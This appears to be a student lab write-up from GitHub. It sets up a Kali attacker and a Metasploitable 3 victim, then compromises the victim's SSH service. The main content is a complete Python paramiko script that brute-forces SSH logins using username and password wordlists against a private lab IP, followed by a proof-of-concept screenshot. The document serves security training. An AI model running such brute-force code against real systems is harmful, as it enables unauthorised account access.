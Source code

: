 # Phase 1: Setup and Compromise the Service
## Downloading and Importing Metasploitable 3 VM (the Victim environment):
![Screenshot 2025-04-26 194716](https://github.com/user-attachments/assets/6eb215a9-2c85-42b9-87cc-88133d73b8c1)

## Checking the connectivity between the attacker(kali) and the victim:
![Screenshot 2025-04-27 211734](https://github.com/user-attachments/assets/496e6b54-4a39-47a7-9e20-faae575623e2)
![Screenshot 2025-04-27 212646](https://github.com/user-attachments/assets/5e052f8c-2ace-4b61-b039-d71a933f0834)

## Setting up metasploit framework in the kali VM:
![Screenshot 2025-04-27 191041](https://github.com/user-attachments/assets/7015f966-f7bb-4857-9a44-9d6ca4e8ebaa)
 
## Task1.1: 
We choosed SSH service to compromise.

![Screenshot 2025-04-27 222648](https://github.com/user-attachments/assets/a77cc2c4-83fe-40f1-9f71-1d0a8cb5c31b)


## Task1.2: Custom script for compromising the SSH service :
import paramiko

#Target Information

target_ip = "192.168.8.36"

target_port = 22


#Files containing usernames and passwords

user_file_path = "user_file.txt"

pass_file_path = "pass_file.txt"


#Setup the SSH client

ssh_client = paramiko.SSHClient()

ssh_client.set_missing_host_key_policy(paramiko.AutoAddPolicy())


#Read usernames and passwords from files

with open(user_file_path, "r") as uf:

    usernames = [line.strip() for line in uf if line.strip()]
    

with open(pass_file_path, "r") as pf:

    passwords = [line.strip() for line in pf if line.strip()]
    

#Try all combinations

for username in usernames:

    for password in passwords:
    
        try:
        
            print(f"[*] Trying {username}:{password}")
            
            ssh_client.connect(hostname=target_ip, port=target_port, username=username, password=password, timeout=5)
            
            print(f"[+] Success! Credentials found: {username}:{password}")
            
            ssh_client.close()
            
            exit()
            
        except paramiko.AuthenticationException:
        
            print(f"[-] Failed login: {username}:{password}")
            
        except Exception as e:
        
            print(f"[!] Connection error: {e}")
            

print("[-] No valid credentials found.")


Proof of Concept:

![image](https://github.com/user-attachments/assets/df04185c-66e7-467c-a17c-6e736957508f)


